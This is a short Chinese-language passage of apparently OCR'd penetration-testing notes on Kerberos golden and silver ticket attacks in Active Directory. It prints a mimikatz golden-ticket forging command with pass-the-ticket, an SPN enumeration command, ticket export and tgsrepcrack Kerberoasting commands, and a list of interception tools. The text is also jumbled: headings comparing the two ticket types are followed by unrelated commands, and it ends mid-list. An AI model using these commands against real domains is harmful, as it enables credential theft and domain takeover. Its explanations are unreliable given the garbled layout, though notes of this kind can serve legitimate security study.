 其实可以说是一种后门而不是什么漏洞。黄金票据是伪造 TGT, 可以获取任何 Kerberos 服务权限, 与域控制器没有 AS-REQ 或 AS-REP（步骤 1 和 2）通信。由于黄金票据是伪造的 TGT，它作为 TGS-REQ 的一部分被发送到域控制器以获得服务票据。

Kerberos 黄金票证是有效的 TGT Kerberos 票证，因为它是由域 Kerberos 帐户（KRBTGT）加密 / 签名的 。TGT 仅用于向域控制器上的 KDC 服务证明用户已被其他域控制器认证。TGT 被 KRBTGT 密码散列加密并且可以被域中的任何 KDC 服务解密的事实证明它是有效的  

利用条件：

1. 普通域用户

2.krbtgt ntlm hash

3. 域 SID

在域上抓取 hash

```
mimikatz.exe "kerberos::golden /domain:域 /sid:SID /target:域全称 /service:要访问的服务 /rc4:NTLM /user:silver /ptt"
```

```
https://github.com/nidem/kerberoast
```

### **Kerberos 银票务**

```
setspn -T PENTEST.com -Q */*
```

黄金票据和白银票据的一些区别:  

```
kerberos::list /export
```

加密方式不同:

```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

认证流程不同:

```
Responder
cain
ettercap
BDFProxy
```

域上获取信息

```
攻击者如何转储Active Directory数据库
https://adsecurity.org/?p=2398
```

首先需要获得如下信息:  

/domain
